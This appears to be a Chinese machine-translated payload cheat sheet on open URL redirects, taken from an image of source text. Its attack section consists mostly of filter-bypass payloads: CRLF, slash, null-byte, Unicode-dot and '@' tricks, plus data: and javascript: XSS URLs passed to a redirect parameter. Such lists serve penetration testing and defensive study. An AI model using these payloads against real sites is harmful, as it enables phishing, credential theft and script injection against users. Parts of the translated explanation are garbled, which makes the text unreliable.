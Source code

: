 # 打开URL重定向
	
当web应用程序接受可能导致web应用程序将请求重定向到不可信输入的URL时,多组重定向和转发是可能的。通过将不受信任的URL输入修改为恶意站点,攻击者可能成功启动网络钓鱼欺诈和窃取用户凭据。由于修改链接中的服务器名称与原始站点相同,网络钓鱼尝试可能具有更值得信任的外观。多组重定向和向前攻击还可以用于恶意创建一个URL,该URL将通过应用程序的访问控制检查然后交给攻击者通常无法访问的特权函数。
## 攻击
 
使用crlf绕过“JavaScript”黑名单关键字
```
java%0d%0ascript%0d%0a:alert(0)
```

使用“//”绕过“http”黑名单关键字
```
//google.com
```

使用“https :”绕过“/ / //”黑名单关键字
```
https:google.com
```

使用“\ /”绕过“/ /”黑名单关键字(浏览器,请参见\ / / )
```
\/\/google.com/
/\/google.com/ 
```


使用“% E3 % 80% 80%82”进行绕过。"黑名单中的字符
```
//google%E3%80%82com
```


使用空字节“%00”绕过黑名单筛选器
```
//google%00.com
```

使用“@”字符,浏览器将重定向至“@”后面的内容
```
http://www.theirsite.com@yoursite.com/
```

创建文件夹作为其域
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


从今以后从打开的URL-如果它在一个js变量中
```
";alert(0);//
```

来自数据的XSS : //包装
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

来自JavaScript : / /包装的XSS
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## 感谢
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
